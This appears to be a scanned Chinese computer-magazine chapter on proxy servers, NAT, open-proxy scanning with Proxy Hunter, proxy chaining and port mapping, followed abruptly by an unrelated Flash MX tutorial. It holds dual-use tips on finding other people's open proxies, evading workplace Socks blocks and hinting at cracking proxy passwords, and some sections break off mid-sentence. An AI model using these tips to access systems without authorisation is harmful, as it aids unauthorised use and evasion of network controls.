通常使用共享上网路由器，该类设备除具有共享上网的功能外，一般还具有HUB功能。它们通过内置的硬件芯片来完成互联网和局域网之间数据包的交换管理，实质也就是在芯片中固化了代理软件。由于是硬件工作不用依赖于操作系统，所以稳定性较好，但是可更新性相对软件共享来说显得差一些，并且需要另外投资购买。

在只有一台计算机可直接连接到Internet的局域网上，通过在该台能上网的计算机上安装代理共享上网软件后，可实现整个局域网对Internet的共享。软件共享上网的优势在于花费低廉，有些共享上网软件甚至是免费的，而且软件更新较快，可以比较快地适应互联网新的接入技术和应用协议。软件共享上网的缺点就是需要专门使用一台电脑来作为共享上网服务器，为其他计算机提供上网支持，并且这台电脑的性能不能太低，另外它依赖于操作系统，是一个标准的应用程序。所以稳定性相对硬件方式略差。

### 2. 软件共享上网

无论是软件还是硬件方式，其工作原理都是把局域网内部的网络请求做转换处理以后从连接互联网的线路发送到互联网，然后把从互联网接收到的数据再处理以后发送到发出该请求的内部计算机上。对于普通家庭、网吧以及小型企业、办公室而言，采用软件共享上网是最常见的代理服务方式，因此本文将详细介绍这种采用软件实现代理上网的方式。代理服务器的实现十分简单，只需在局域网的一台服务器上运行相应的服务器端软件即可。代理服务器软件很多，一般分为两个大的类别，分别是NAT网络地址转换类型和Proxy代理服务器类型，其中NAT网络地址转换类型通常也称为网关型。

NAT是Network Address Translation的缩写，它采用网络地址转换技术，局域网内部的“非法互联网IP地址”通过NAT可以转化成“合法互联网IP地址”，实现对外界网络如Internet的合法访问。NAT的实质其实可以这样理解，就是一个在数据包底层的Proxy代理，它不再单独为每一种互联网应用协议例如HTTP、FTP、Telnet等服务做代理工作，它做的是每个TCP/IP数据包的代理。采用地址转换技术，NAT将内部客户机发出的每一个IP数据包地址进行检查和翻译，把包内的请求端IP地址数据记录并重新打包成合法的互联网外部IP地址发送到互联网。然后NAT把由互联网获得的数据包根据请求端记录把目的IP地址在数据包内部进行重组，使其转换为局域网客户端的IP地址再发送到客户端。NAT共享上网的优势在于内部的机器只需要设置共享服务器的地址为客户端机器的网关，服务软件就完成所有转换工作，客户端就好像一台具有真正连接互联网能力的机器一样。

### （二）搜索代理服务器

最常见的代理搜索软件就是很多网友经常使用的代理猎手。代理猎手支持HTTP和Socks5代理服务器的搜索和验证，可以对多网址段、多端口自动搜索，它最大的特点就在于搜索速度快，而且支持Windows的计划任务。

安装并运行代理猎手后，我们要做的工作就是添加搜索任务。先选中“搜索任务”标签，点击“添加任务”按钮，在添加任务窗口中，可以选择任务类型，默认为“搜索网址范围”，点击“下一步”按钮在弹出的窗口中添加自己需要测试的网段的起始和结束IP地址。然后返回到添加任务窗口，进入到对端口（Port）进行选择的窗口设置需要测试的端口（如8080等常用的HTTP代理端口等）。设置完成后返回主操作界面，点击“系统”>“参数设置”，进行相关搜索参数设置，主要是搜索的校验地址（可以填写一个固定的网站作为搜索的测试校验目标）、搜索并发进程等方面的设置。完成后就能进行相应的搜索任务了（如图2）。


对于搜索到的可用代理服务器，代理猎手会自动添加到列表并将代理服务器的详细情况（如代理端口、代理协议等）显示在“搜索结果”显示框中，其中主要的显示内容有如下几种。

- 服务器地址：这里出现的就是你搜索到的代理服务器的IP。
- 端口：这个是代理服务器开设代理提供的端口。
- 类型：就是代理服务器提供的代理类型。
- 验证状态：这个最重要，它的状态分几种，如果成功搜索到代理服务器，它会显示为“FREE”，那么就可以直接使用这个代理服务器。如果显示为“要密码”的话，基本上可以把这个代理服务器删除了，除非有能力把它的密码破解。要是显示“连接超时”或“连接失败”等其他状态的话，那么可能是网络正处于繁忙状态，也有可能是这个代理服务器暂时关闭了，可以隔一段时间再去验证一次。
- 时间特性：这个数值表明了这个代理服务器的速度，它显示的是你的机器连接到代理服务器的时间，如果有多个代理服务器供选择的话，那么就选一个数值相对小的一个，连接的时间越小就代表这个代理服务器越快。

常见的代理服务器搜索软件除了代理猎手外，还有Proxy Checker、Proxy NOW、SOCKS Cat等，基本原理和使用方法都大同小异，大家可以根据自己的需要选择使用。

### （三）自己架设代理服务器

目前代理服务器软件产品十分成熟，功能也很强大，可供选择的服务器软件很多。主要的服务器软件有WinGate公司的WinGate Pro、微软公司的Microsoft Proxy、Netscape的Netscape Proxy、Ositis Software公司的WinProxy、Tiny Software公司的WinRoute、Sybergen Networks公司的SyGate等，这些代理软件不仅可以为局域网内的PC机提供代理服务，还可以为基于Novell网络的用户，甚至UNIX的用户提供代理服务，服务器和客户机之间可以用TCP/IP、IPX、NETBEUI等协议通信，可以提供WWW浏览、FTP文件上传下载、Telnet远程登录、邮件接收发送、TCP/UDP端口映射、Socks代理等服务等。下面我们就按照工作方式分别给大家介绍一些，方便大家在工作中选用，以下介绍的软件都可以运行于Windows 9x/NT和Windows 2000中作为共享上网服务器。

### 1. Proxy类型

常见的Proxy类型主流代理服务器架设软件主要有WinGate、Winproxy、亿特代理服务器以及CCProxy等，下面先简单介绍一下这几个软件的特点。

- （1）WinGate是老牌Proxy类型共享上网软件，支持Modem、T1-T3、DSL、Cable、ISDN等多种连接方式，支持各种常见的网络软件以及现有的网络应用协议，最新版本在原有Proxy服务功能上加入了NAT功能。更多的介绍可以到www.wingate.com查看。

- （2）Winproxy是由Ositis软件公司开发的标准Proxy型代理软件，支持绝大部分现有的网络应用协议，例如HTTP、FTP、POP3、Socks4、Socks5等，并且还具有网络病毒监测能力，阻止外界计算机病毒的入侵，管理控制能力很强，其最新版本也加入了NAT功能以便支持更多的互联网应用协议。其主页为www.ositis.com。

- （3）亿特代理服务器是一款国产共享网络软件，支持各种网络代理服务，操作简单，对应不同用户分别有不同的使用版本。其中免费版对客户端连接数不作任何限制，但是没有控制功能；简易版具有免费版所有功能，并且有部分控制功能；标准版具有强大的控制功能，使用者可根据实际需要进行注册；完全版除了具有标准版强大的控制功能外，还具有计费功能。官方主页：http://www.yitsoftware.com.cn/yitproxy/。

- （4）CCProxy同样是一款国产的共享网络软件，它能够实现局域网内共享上网和帐号控制，界面友好，设置简单，功能强大。支持Modem、ADSL、宽带等共享上网，支持网页缓存，能实现多人共享浏览网页、收发邮件和QQ联络，同时还能监视上网记录，可以针对不同用户合理的安排上网时间和带宽流量控制，有效地进行网站过滤。官方主页：http://www.youngzsoft.com/cn/。

下面就以亿特代理服务器的免费版为例，来简单地介绍一下Proxy类型的代理服务器的安装和设置。

亿特代理服务器免费版适用于个人、家庭以及小型办公场所等对代理控制要求不高的用户。它具有以下一些特点：

HTTP支持MS Proxy上级代理；代理客户端数量不限；支持各种连网方式，只要本机能上网，就能代理所有机器上网；支持HTTP、Socks4、Socks5、FTP、SMTP、POP3、DNS、RTSP、MMS代理等；支持Win98、WinME、WinNT、Win2000、WinXP；HTTP支持Get和Connect方式代理；Socks支持Socks4、Socks5，Socks5支持TCP、UDP代理（如OICQ代理）；FTP支持OPEN、SITE方式，并全面支持PORT和PASV两种方式；只须在代理端设置发送邮件的SMTP服务器，客户端无须进行其他设置即可代理局域网发邮件；代理服务器无需进行任何设置，即可进行POP3代理，使局域网收取任何服务器上的邮件；HTTP、Socks（TCP、UDP）、FTP、SMTP、POP3全面支持Socks5二级代理（使用上级代理服务器）；HTTP代理支持HTTP二级代理和Socks5二级代理两种方式；实时代理流量曲线图，并可自由设定取样时间和取样标准；可显示客户端实时连接情况；可自由设定代理的端口。

首先，我们可以到www.yitsoftware.com的站点去下载其免费版的软件，解开安装后运行相应的程序项，我们首先需要做的工作就是对于相应的各项代理服务进行相关的设置工作。点击操作界面上“设置”中的“代理设置”，就会出现亿特代理服务器中关于各项代理服务的具体设置，主要包括HTTP代理、Socks代理、FTP代理、SMTP代理以及POP3代理这5项。对于每项服务，使用时亿特代理服务器已经自己默认定义了这些代理服务的端口号，使用者也可以自己修改定义相应的端口号。同时对于这些代理服务，亿特代理服务器还支持对上级服务的二级代理服务，也就是说，对使用代理服务的用户可以继续再给其他人开设代理服务，具体的操作可以先勾选“使用上级代理服务器”，然后再在“上级代理设置”中进行设置，填写相应的上级代理服务器的地址以及相应端口，对于上级代理需要进行身份验证的，只要勾取“需要身份验证”并填写相应的用户名和密码。另外，亿特代理服务器免费版同时还可以绑定IP地址，实现限定用户访问的功能（如图3）。


对各种服务设置完毕后，选择“控制”菜单中的“启动服务”就可以成功开启相应的代理服务了。

### 2. NAT类型

正如上面介绍的，利用NAT类型代理服务器实现共享上网的优势在于内部的机器只需要设置共享服务器的地址为客户端机器的网关，服务软件就完成所有转换工作，客户端就好像一台具有真正连接互联网能力的机器一样。这对于局域网内部的用户使用上来说还是方便了很多，对于客户端程序基本上无需进行必要的设置，就像自己的机器直接通过专线接在网络。

## 网络天地

下面就先来简单地介绍几个采用 NAT 方式实现代理共享的服务器架设软件。

-   1. WinRoute功能超强，具有软件路由器的美名，支持各种协议和联网方式，能够提供外界访问内部WEB、Mail等服务器的路由功能，管理控制能力在NAT类型的共享上网服务软件中也很强。同时也带有Proxy服务和缓存加速以及SMTP等功能。官方主页：www.tinysoftware.com。
-   2. Sygate是著名的NAT共享上网软件，支持所有网络应用协议，支持各种联网方式，其Office专业版还可以控制每个客户端使用的网络带宽，普通用户常使用的是Home版本，设置使用简单方便，控制管理能力弱些。官方主页：www.sygate.com。
-   3. Internet GateWay Server是Vicom开发的NAT服务软件，支持多种网络协议和连接方式，最具特色的是自带PPPoE协议，直接支持ADSL的虚拟拨号上网而不需要安装PPPoE软件，带有流量显示图可及时掌握带宽使用情况。官方主页地址为www.vicomsoft.com。
-   4. Windows 2000 & Windows 98se/me自带的ICS（Internet Connection Share），这也是一套NAT类型的共享上网软件，安装以上版本的Windows以后就可以添加该组件实现共享上网，但是功能比较简单，管理控制能力几乎没有，与ADSL配合问题较多。

下面就以 WinRoute Pro 为例，来简单地介绍一下 NAT 类型的代理服务器的安装和设置。

WinRoute Pro是一个集路由器、DHCP服务器、DNS服务器、NAT、防火墙于一身的代理服务器软件，同时它还是一个可以应用于局域网内部的邮件服务器软件；所以WinRoute Pro不但可以实现局域网内的所有微机共享一个Internet连接（连接方式包括MODEM、ISDN、xDSL、DDN、DirecPC等），而且可以实现局域网内部的邮件管理，实现局域网与Internet之间的邮件交换。

我们可以去官方主页www.tinysoftware.com下载最新版的WinRoute Pro，在安装WinRoute Pro之前，首先要保证整个局域网中必须有一台安装有网卡的计算机充当服务器，其他每个客户机必须装有网卡，并各自通过一根网线接入集线器，由集线器与服务器连接。同时，必须要求所在的服务器应当既能连接到因特网又能被局域网内的机器访问，连接到因特网的方式可以是通过拨号网络，也可以是通过专线DDN、ADSL、宽带以太网等等。如果是拨号接入，服务器只须安装一块网卡，该网卡配虚拟IP地址；如果是专线接入，服务器必须安装两块网卡，一块必须配有一个因特网服务商提供的合法的因特网IP地址（同时作为内部局域网的代理网关使用），一块配置一个局域网内部的虚拟IP地址，通常内部局域网的IP地址可以使用保留的IP地址，如192.168.*.*，10.*.*.*等格式的地址。

接下来就要在服务器上安装WinRoute了。安装很方便，只要双击安装程序，无需设置，一路点击Install或OK很快就可安装好，并自动重新启动电脑，WinRoute的系统配置才能被激活。

WinRoute由WinRoute引擎、WinRoute引擎监视器和WinRoute管理程序三个管理工具组成。其中WinRoute引擎执行所有路由和地址分析操作（包括信息包过滤、端口映射等等），WinRoute引擎监视器用来开始和停止你的WinRoute引擎。WinRoute引擎监视器监听WinRoute引擎是否处于激活状态，它会在系统的桌面下角任务栏上显示出蓝白色的图标。WinRoute管理程序提供了对WinRoute引擎的配置和设置。可用在本地的局域网络，也可以用在互联网络。

安装完毕，重启电脑后，从WinRoute管理程序组上运行WinRoute引擎监视器。在系统托盘上显示出一个小圆型的蓝白色图标，在图标上简单点击鼠标右键，在弹出菜单项选择“Start WinRoute Engine”。

然后选择“开始 > 程序 > WinRoute Pro”或者单击WinRoute引擎监视器的图标，这时将弹出一个初始登录对话窗口，在窗口中设置WinRoute的管理员密码。

由于WinRoute既支持Proxy类型的代理也支持NAT类型的代理，在这里就只介绍一下它实现NAT类型代理的具体设置情况。

运行WinRoute之后，点击WinRoute主界面上的图标栏倒数第八个图标按钮，或点击“Setting > Interface Table”，在弹出对话框的“Interface > NAT”中会显示系统内的两块网卡的属性，然后双击或点击连接外部网络的网卡属性按钮，弹出“Interface Properties”对话框，在Setings的选项中，选中第一个设置选项，允许指定的网卡使用NAT选项，而接入局域网的网卡，则不必选择此项。这样就可以开启WinRoute的NAT了（如图4）。

对采用NAT类型的代理服务器来说，客户端的机器只要把计算机的网关以及DNS设置为NAT服务器连接内部网络的网卡IP地址就行，对于客户端计算机上的一般Internet应用软件，通常不用象Proxy类型的应用软件那样进行比较复杂的设置，直接使用就可以，不过在使用中，对一些软件还是要进行一些特殊设置。首先要将一些FTP软件（如CuteFTP或WS_FTP等）的工作模式设置成PASV模式下。其次要将Realplayer设置为使用TCP连接。

### 四、客户端软件代理服务的使用设置

从整个代理服务的物理连接来看，代理服务通常由两部分组成：服务器端程序和客户端程序，用户运行客户端程序，先登录至代理服务器（有的是透明处理的，就没有显式的登录），再通过代理服务器就可以访问相应的站点。

客户端程序可以分为专用客户端及Internet应用程序内嵌的代理设置。例如Microsoft Proxy Server有自己专用的客户端程序Microsoft Proxy Client，在客户机安装了以后，可透明地通过Microsoft Proxy Server访问Internet；另外大家比较熟悉的SocksCap也是一个专用的客户端程序，它是Socket代理的客户端，可以透明地通过Socks代理访问Internet。而相比较而言，更多的Internet应用程序都内置了设置代理的功能，例如IE、Netscape等浏览器都可以设置代理，CuteFTP等FTP软件也可以设置代理。

### （一）浏览器的代理设置

-   1. Internet Explorer
    在“工具” > “Internet选项” > “连接” > “拨号设置”中选择需要使用代理的连接，然后点击“设置”，在“代理服务器”一栏选中“对此连接使用代理服务器”，在“地址”和“端口”栏输入代理服务器的地址以及相应端口（如图5）。

    对于局网域用户，应点击“连接”标签下面的“局域网（LAN）设置”按照类似于上面的步骤来设置代理服务器地址（如图6）。

-   2. Opera
    Opera（以汉化版为例）在“设置” > “Proxy选项”中将相对应的代理服务器地址和端口填写到相应的位置（如图7）。

-   3. Netscape
    点击菜单“Edit” > “Preferences”进入设置对话窗口，然后进入“Category”中的“Advanced” > “Proxies”，在选项“Manual proxy configuration”中输入相应代理服务器地址和端口号即可（如图8）。

### （二）聊天类软件的代理设置

-   1. ICQ
    首先启动ICQ，在“main”菜单中将“Simple Mode”切换为“Advanced Mode”，然后在ICQ中选择“Preferences”选项，选择“Connection”，在“Server”中的“Proxy Settings”选择“Using Firewall”，并选择所需要使用的代理方式，ICQ目前支持Socks4、Socks5、HTTPS以及HTTP这四种代理方式；然后在“Firewall”菜单中根据前面选择的代理方式填写相应的代理服务器地址以及相应的端口（如图9）。
-   2. OICQ
    在OICQ的主菜单中选择“系统参数”的“网络设置”，在“上网类型”中选择“局域网接入Internet”，然后在“代理设置”中勾选“使用Socks5代理服务器”，然后填写相应的代理服务器的地址以及端口（如图10）。
-   3. MSN
    在“工具”菜单中选择“选项”，然后选择“连接”中的“我使用代理服务器”，最后选择需要使用的代理服务类型，MSN支持Socks4、Socks5、HTTP的代理，并填写相应的代理服务器地址以及相应的端口，需要身份验证的话还需要填写相应的用户和密码（如图11）。
-   4. mIRC
    选择“File”菜单中的“Options”选项，在“Connect”中选择“Firewall”，在“Enable Firewall support for”中选择代理服务器的服务，在“Protocol”中选择代理服务的类型，mIRC支持 Socks4、Socks5以及mIRC的专用代理，然后填写相应的代理服务器地址以及相应的端口（如图12）。

### （三）邮件处理类软件的代理设置

对提供POP3代理的代理服务器，我们就可以在邮件软件中使用这个代理，下面以Outlook Express为例进行讲述。在设置信箱帐号的服务器属性时，把信箱服务器地址填写为代理服务器的地址，如10.111.26.76，如果代理服务器的端口使用默认设置的话，端口号无需改变，如果是自定义的话填写对应的代理端口，但在填写“帐号名”时需要注意，这个帐号的格式为“原帐号#服务器”，例如原来帐号为abc@163.com，则此处应填写abc#163.com，“密码”为原始密码即可（如图13）。

### （四）FTP类软件的代理设置

以LeapFTP为例，选择“Options”>“Preference”>“Proxy”，填写相应的FTP代理服务器的地址和相应的端口（如图14）。

### （五）下载软件的代理设置

以FlashGet为例，选择“工具”>“选项”>“代理服务器”，选择“添加”，在随后弹出的窗口中填写相应的代理服务器地址、端口、代理的类型，必要时还需填写相应的用户名以及口令等信息（如图15）。

### （六）在线媒体播放类软件的代理设置

-   1. Realplayer
    选择“视图”>“首选项”>“代理服务器”，对具有专用的PNA或者RTSP代理的服务器可以在“PNA和RTSP”选项中直接指定相应的代理服务器地址和端口，对使用HTTP代理的用户可以在“HTTP”选项中选择设置相应的代理服务器地址和端口（如图16）。
-   2. Media player
    选择“查看” > “选项” > “高级”，然后点击“更改”按钮，在“HTTP”中选择相应的代理设置（如图17）。

注意：以上简单地列出了一些常用软件的代理设置，其他一些软件的代理设置都大同小异。但对一些本身并不提供代理服务器设置的软件，在需要使用代理时就需要一些第三方的客户端软件（如sockscap等），这些方面的内容将在后面的内容中详细谈到。

### 五、代理服务器的进阶使用

代理服务器的使用最常见的模式就是“获得代理服务器的地址”——“在相关的软件中设置相应的代理”，但是在很多情况下，对代理服务器的使用却并不那么简单。下面就来给大家介绍一些代理服务的进阶玩法，帮助大家在一些特定的情况下实现特定的代理服务。

### (一) '万能'的 SocksCap

很多情况下对提供单一代理服务的服务器，我们只能使用其有限的代理服务，那么是否存在“万能”的代理服务呢？答案是肯定的，而且非常不错，这就是下面要为你推荐的SocksCap软件，有了这个软件，加上一个Socks代理服务器，可以说是一个“一劳永逸”的代理解决方案。

在这里就顺便介绍一下什么是Socks。Socks是个电路级网关，是David Koblas在1990年开发的。此后，就一直作为Internet RFC中的开放标准。Socks在协议栈的TCP层上运行。Socks不要求应用程序遵循特定的操作系统平台，比如象Winsock那样遵循Windows。Socks代理与应用层代理、HTTP层代理不同，Socks代理只是简单地传递数据包，而不必关心是何种应用协议（比如FTP、HTTP和Telnet等请求）。所以Socks代理服务器比应用层代理服务器要快得多。

SocksCap32是NEC公司开发的一个使所有Winsock应用都可以使用Socks代理的工具。它可以使得某些没有提供代理设置的客户端软件能够通过它来连接Internet。它的作用恰如其名，它就像一个帽子一样，可以盖住客户端软件，捕捉它们的网络连接，然后转向代理服务器。

SocksCap的最新版本可以在http://www.socks.nec.com处下载获得。

下载相应的安装程序后，一路按“Next”按钮即可顺利安装成功。第一次运行SocksCap，程序会询问你是否立刻进行配置。选择“Yes”后在弹出的设置窗口中参照图18进行配置。

SOCKS Server项填入Socks代理服务器地址如192.168.1.30；在Port项填入地址端口如1080；Protocol项根据使用的代理服务器选择Socks4或者Socks5项。

下面是SocksCap32控制窗口（如图19）。

有几种方法可以增加需经过SocksCap32代理的网络应用软件。一是直接把快捷方式拖进上图窗口，然后鼠标右击会显示“New application profile”窗口（如图20）。首先需要给这个项目命名，然后给出需要运行的程序以及相关的安装目录，点“OK”设置生效。

另外一个增加项目的做法就是在控制台界面，直接按“New”按钮，同样会出现上述的窗口，然后添加需要使用的程序即可。

设置完所有需要使用代理的软件之后，运行需要代理的程序只需双击SocksCap控制台界面里的图标就可以了，一般在使用过程中，不可以关闭SocksCap32。否则已在其上运行的程序就不能正常继续运行，必须要先退出，再启动才能正常运行。

SocksCap正常运行的前提需要使用代理服务器的Socks代理，而对于很多企业以及办公室的用户来说，网管通常出于安全以及其他方面（如为了防止单位用户在上班时上QQ聊天或者上联众等游戏网站影响正常工作）的考虑，通常会关闭代理的Socks代理功能，这样就算是“万能”的SocksCap也是英雄无用武之地。不过，一般常见的HTTP代理还是都能用的，但是HTTP代理只能代理HTTP请求，对于其他类型的请求就无能为力了，这时我们可以试试SocksOnline来将本地Socks转化为HTTP代理，从而间接实现Socks的功能。

SocksOnline是一个协议转换工具，它可以把所有的Socks协议转换为HTTP协议，这样只要我们可以使用HTTP代理服务器浏览网页，就可以通过SocksOnline模拟一个Socks代理服务器。
SocksOnline可从http://www.waysonline.com的网站下载。SocksOnline不需要任何的安装过程，下载以后只要点击运行SocksOnline.exe即可（如图21）。

若提示服务启动完毕，表示系统已正常运行。若启动过程中有错误出现的话，通常的原因可能在于设置的Socks端口有冲突，自己重新在设置中定义一个新的端口就能解决。

SocksOnline正常启动后，该程序就变成了一个本地的SocksProxy，它的地址是localhost:1080或127.0.0.1:1080(默认端口是1080,具体的端口可以自己在软件中自行设定)。

对支持Socks代理的软件来说，可以直接在代理设置中选择使用Socks5，具体的设置及使用和上面介绍的代理软件的设置基本相同，当然，选用上面介绍的“万能”的SocksCap32同样可以，唯一不同的就是，这些软件的Socks代理的地址要改为localhost或127.0.0.1。

必须注意的是，当使用SocksOnline的本地Socks服务时，运行应用软件，SocksOnline的界面上应显示有连接数，主机、端口或收发数据也会有相应变化，此时才表示相应的软件配置正确。否则，请检查软件的 Socks5 代理服务器的端口号是否与 SocksOnline 设置的 Socks 服务端口号一致。有时繁忙时间会出现软件运行慢或者信息超时等情况，这属正常现象，可以重试或在非繁忙时间使用就会恢复正常。

另外，除了 SocksOnline 外，Socks2HTTP、TCP2HTTP 等软件也可以提供类似的代理转换功能。

#### (二) 玩转代理协议转换

上面笔者介绍了“万能”的SocksCap，但是

#### (三) 二次代理的使用技巧

其实二次代理就是两个代理的级联，还是先来看看要实现二级（甚至多级）代理跳跃要用到的一些软件，SocksCap、Httpport、MProxy 等软件在网上都能很方便地找到。代理级联一般都是通过 HTTP 代理和 Socks 代理为基础来进行的，常用代理级联大概有以下几种方式。

-   1. HTTP代理之间的级联
    HTTP 代理级联可以有多种方式来实现，最简单的方法就是使用 MProxy，它支持三级 HTTP 代理级联，使用时直接输入前两级代理的地址和端口即可，然后就可以使用本地 127.0.0.1:888 作为代理来访问。不过这个方法的缺陷就是不支持 HTTP 代理的认证功能，不能使用需要身份认证的 HTTP 代理。另外一种方法是使用 Httpport，打开 Httpport，在 Proxy 页输入第一级 HTTP 代理的地址和端口，如果需要认证就选择上认证，输入用户名和密码；然后到 Port mapping 页，点击 Add 按钮，在列表中出现 New mapping，再在 Remote Host 里输入第二级 HTTP 代理的地址，在 Remote port 里输入第二级 HTTP 代理的端口，Local port 里输入本地监听的端口，如 3128、8080 等端口，在 Proxy 页点击 Start 按钮后就可以使用本地 127.0.0.1:3128 作为代理来访问了。需要注意的是第一级 HTTP 代理必须支持 SSL 连接，否则不能级联第二级 HTTP 代理。
    还需要补充的一点就是，上面的二次代理可以供别人使用，因为是在本地所有 IP 上进行监听的，如你的机器 IP 是 10.111.26.76，本地端口是 888，别人能访问 10.111.26.76:888 作为二次代理使用，这样你就可以与别人共享你的二次代理了。
-   2. Socks代理之间的级联
    Socks 代理级联也有几种方式，常用的方法是使用上面介绍的 SocksCap 来实现，在 SocksCap 的 Setting 对话框中输入 Socks 代理地址、端口，如果是 Socks5 还有用户和密码，然后加入可使用 Socks 代理的软件，如 IE，在 Internet 选项的 Socks 里设置二级 Socks 代理的地址和端口，在 SocksCap 里运行 IE 就可以使用上二次 Socks 代理了。其他的软件（如 Flashfxp、Sterm 和 Leapftp 等）的设置也类似，在这些软件上设置二级 Socks 代理，然后在 SocksCap 里运行就可以使用二次 Socks 代理了。另外也可以使用 SkSockServer 来实现，这个软件支持 256 级 Socks 代理的级联，本身也可以作为 Socks Proxy Server 来使用，跟 MProxy 差不多，只要加入各级 Socks 代理地址和端口即可，另外 Sockschain 也是做 Socks 级联的工具。
-   3. HTTP代理和其他代理的级联
    HTTP 代理跟别的代理级联，这里用的是上面提到的 Httpport。注意第一级 HTTP 代理一定要求 SSL 连接，否则是不能级联的。在 Proxy 页输入 HTTP 代理的地址和端口，然后在 Port mapping 页加入其他要级联的代理，如 Telnet 代理，在 Remote host 和 Remote port 里分别输入 Telnet 代理服务器的地址和端口，在 Local port 输入本地监听端口（如 23），在 Proxy 页点击 Start 按钮，这样 Telnet 127.0.0.1 23 就连接到二次代理上，接着输入要远程登录的地址和端口即可。级联 Socks 代理也一样，在 Port mapping 页输入二次代理的地址、端口和本地监听端口（如 1080），这样你就可以在其他软件上使用 127.0.0.1:1080 作为二次代理使用了，其他的如 FTP、POP3 代理也一样可以作为二级代理与 HTTP 代理级联。
-   4. Socks代理和其他代理的级联
    Socks 代理与其他代理级联，这里介绍的是 SocksCap。跟上面介绍的一样，在 Setting 对话框里输入 Socks 代理的地址和端口，然后添加其他需要用二次代理的软件，如 IE、OE 和 Flashfxp 等软件，只要在 Internet 选项里输入第二级 HTTP 和 FTP 代理的地址和端口，在 SocksCap 里运行 IE 就能使用二级的 HTTP 和 FTP 代理了，其他的软件也一样，设置上二级代理在 SocksCap 里运行即可使用二级代理。
-   5. Telnet代理之间的级联
    其实 Telnet 代理之间的级联很简单，以常用的 Wingate 代理为例，当我们 Telnet 到代理时出现 Wingate 的提示，直接输入另外一个 Telnet 代理的地址和端口即可，一般是“ip port”（有些代理是“ip:port”），输入即可连到二次代理上，在二次代理中输入要 Telnet 登录的地址就可以了。

上面介绍几种常用代理的级联方法，其实就是灵活使用 Httpport、SocksCap 等几个软件，只要熟练掌握这几种软件的使用方法并加以组合，就能够玩## （四）突破封锁开服务——端口映射

对于使用宽带服务的用户来说，很多用户使用的都是“躲”在代理服务器后面的客户机，由于没有自己真实的对外公网IP，导致自己无法建立完整的对外服务（如架设FTP等）共享自己的资源。其实，内网IP也可以实现对外服务的功能，其关键就在于利用端口映射来突破代理的封锁。下面就以内网架设对外FTP服务器为例来详细地讲解一下具体实现的过程。

对代理服务器IP经常变换的用户来说，架设一个FTP最好申请一个动态域名解析，这样可以方便别人更方便地访问你，申请动态域名解析目前可以使用dns2go、花生壳、动态主机等等。如果有静态IP，则可以不用申请动态域名解析，直接用IP地址即可。

申请了动态域名解析后，域名只能映射你局域网服务器的IP，外部暂时并不能访问你的机器。因此你需要一个端口映射软件。在这里笔者推荐一个小巧实用的工具PortTunnel。

“PortTunnel”的中文意思是“端口通道”，它是由SteelBytes出品的一款完全免费的软件，可以运行在所有的Windows平台上。下面我们就来通过PortTunnel实现内网的“穿越”。

假设你是一个局域网用户，内部IP地址是10.111.26.76，通过指定网关10.111.26.1上网，首先在网关（代理）服务器10.111.26.1 上安装“PortTunnel”软件（如图22）。


然后根据需要对开设的FTP服务进行配置，点击“Add（增加）”按钮，配置如下（如图23）。

端口输入中设置的是网关上的对应端口，端口输出中设置的是局域网内部本地计算机上的FTP对应端口，两者就形成对应的端口映射关系，在输出地址中设置的局域网内部本地计算机的IP地址，然后确定所做的映射添加工作。

注意：上图中Port In（输入）中填的端口号是21，这样填的前提是网关（代理服务器）上没有FTP服务器在运行，否则请更换其他端口，例如“2100”（在这种情况下，用户必须通过ftp://<你的域名或者IP>:2100来访问你的FTP服务器。）

图24是设置成功后的正常运行界面（平时这个界面可以关掉，不会影响使用）


正常运行时，你设置的通道的状态应当是“Active”，如果是“Failed”那很可能你设置的“Port In”端口号和网关（代理服务器）上的现有端口冲突。

在架设完成后再进行测试一下，如果通过LeapFTP等FTP客户端程序能正常访问你的FTP服务器，那就成功了。

注意：如果局域网内有多个用户想架设网站，那么在设置的时候，一个“Port In”端口只能为一个用户服务，例如，用户A使用了“21”作“Port In”，那么他的计算机就可以通过“ftp://域名”来访问，而用户B就只能使用其他“Port In”端口了，例如“2121”，他的网站只能通过“ftp://域名:2121”来访问了。同理，通过端口映射架设其他的服务器（如Web服务器等）的基本原理也是一样。


## ● 三剑客另类应用 P336

Flash MX 不再单身作战，网页三剑客联手出击。本专题是从本社将要出版的《Macromedia MX三剑客立体作战》一书中精选出来的几个应用案例，实用并且很有趣味。整个操作过程详细明了，再配合本书配套光盘中的多媒体教程，将达到事半功倍的学习效果。

## ● 网页设计美学原则 P350

为何别人的网页看起来赏心悦目，而自己制作的网页却总是不够完美？仔细阅读本专题，灵活运用网页设计的一般美学原则，你的网页将会与众不同。

### 三剑客另类应用

> 本书的配套光盘中附有本文的多媒体教程。另外，三个特例的相关源文件及最终的swf文件，可在光盘B:\booksource\sjk\目录下找到。

#### 一、毕业求职光盘

本例要制作的是一张毕业生求职用的光盘。当完成后的光盘放入电脑光驱后，将自动播放一段开头动画，然后停留在初始导航界面。单击其中的栏目按钮，即跳转到相应的栏目内容。光盘将在全屏的方式下播放，同时伴以悦耳的背景音乐。参照本例制作的光盘，能充分展示毕业生自己的个人简历、作品、能力等，可大幅提高求职的成功率。

整个光盘的内容，由开头动画和几个HTML页面组成。开头动画和初始导航界面包含在一个可执行动画文件start.exe里面，当单击初始导航界面中的栏目按钮时，将关闭Flash动画，打开相应的HTML页面。

开头动画播放完毕后出现的导航界面，如图1所示。


在开头动画的制作过程中，大量应用了Flash MX的Motion渐变和Shape渐变操作，运用了遮罩（Mask）、导线移动和发布为EXE文件等功能，以及全屏、调用URL页面等技术。另外，还采用Flash MX公共库中现存的按钮来作为栏目的导航按钮。

在本例中，利用Fireworks MX输出透明GIF图片，并输入到Flash MX中。这一点体现了Fireworks MX与Flash MX协同工作能力的一个方面。Fireworks MX还能输出PNG格式的透明图形，并导入Flash MX中使用。这两种格式的透明图形输入Flash MX后，均能完整地保持其透明属性。

在制作透明图形的过程中，大量应用了Fireworks MX的矢量工具绘制路径以及环绕文字的制作方法等。另外，本例还阐述了光盘自启动功能的实现方法。

图2所示为点击界面中的一个栏目按钮后打开的栏目页面。


因为光盘的容量比较大，而且读取速度比网上下载快很多。因此，对于本例毕业求职光盘的制作，可以完全不考虑文件的容量大小，对图片等文件采用尽量小的压缩，保证优秀的图片及动画质量。这也是光盘制作与网络媒体制作的一个很大的不同。

### （一）在Flash MX中制作开头动画和界面

先找一张蓝天白云的素材图片，在Fireworks MX中处理为722像素×450像素大小，保存文件为sky.png（素材图片可在本书配套光盘中找到，下同）。

